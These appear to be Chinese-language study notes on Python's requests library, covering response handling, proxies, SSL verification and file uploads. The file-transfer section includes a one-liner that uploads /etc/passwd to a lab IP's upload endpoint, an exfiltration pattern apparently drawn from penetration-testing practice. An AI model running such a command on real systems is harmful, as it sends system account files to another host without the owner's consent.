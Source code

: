 ```python
print(r.status_code)
for k, v in r.headers.items():
    print(f'{k}: {v}')
print('')
if 'application/json' in r.headers.get('Content-Type', '') and len(r.content):
    print(json.dumps(r.json(), indent=4))    ## 打印格式化json
else:
    print(r.text)
```
- `status_code`、`headers`、`text`加起来算是整个响应内容，分别对应状态码、报头、响应体。
- `response.content`：返回响应内容的二进制形式，通常用于处理非文本文件，如图像、音频、ZIP文件等。
	- 如：`with open(file, 'wb'') as f: f.write(response.content)`。当用wb时写入text自己也会保存

### 使用代理

```python
proxy = {
    "http": "http://your_proxy_server:your_proxy_port",
    "https": "http://your_proxy_server:your_proxy_port"
}

## 发送HTTP请求时指定代理
url = "https://example.com"  ## 你要访问的URL
response = requests.get(url, proxies=proxy)
```

### SSL证书：verify参数

`requests.get(url, verify='path_to_cert_file')`

**当request参数verify=False时，不断有警告（但是不建议False）**
解决：
```python
	import requests
	from urllib3.exceptions import InsecureRequestWarning
	requests.urllib3.disable_warnings(InsecureRequestWarning)
```


### 文件传输

```shell-session
[!bash!]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
- 主要是注意files参数。还可以：
```python
files = {
	"files": (filename, file_binary_data, MIME_type)
	}
```


## 执行bash命令
